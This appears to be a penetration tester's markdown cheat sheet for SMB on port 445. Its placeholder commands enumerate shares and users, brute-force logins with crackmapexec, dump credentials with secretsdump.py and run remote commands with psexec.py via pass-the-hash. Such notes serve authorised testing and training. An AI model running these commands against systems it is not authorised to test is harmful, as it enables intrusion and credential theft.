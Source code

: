 # 445 - SMB

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <RPORT>
smbclient //<RHOST>/<share>
smbget -R smb://<RHOST>/<share>
```

## Listing shares

```text
smbmap.py -H <target> -u <user> -p <pass/hash>
crackmapexec smb --shares <target> -u <user> -p <pass>
```

## Connecting to share

```bash
smbclient.py <target>
  shares
  use <share>
  ls

mount -t cifs [-o 'username=<user>,password=<pass>'] //<target>/<remote> <local>
```

## SMB commands

```text
SMB> allinfo
SMB> more <file>:<stream>
SMB> recurse on
SMB> prompt off
SMB> mget *
```

## Bruteforcing

```text
crackmapexec smb <target> -u <user/list> -p <pass/list> --continue-on-success
```

## secretsdump

```text
secretsdump.py <domain>/<user>@<target>
```

## checking for psexec.py

```text
crackmapexec smb <target> -u <user> (-H <hash> || -p <pass>)
```

## psexec.py

```text
psexec.py <adminuser>@<target> [-hashes <hash:hash>]
```

## Default shares

```text
ADMIN$
C$
IPC$
```

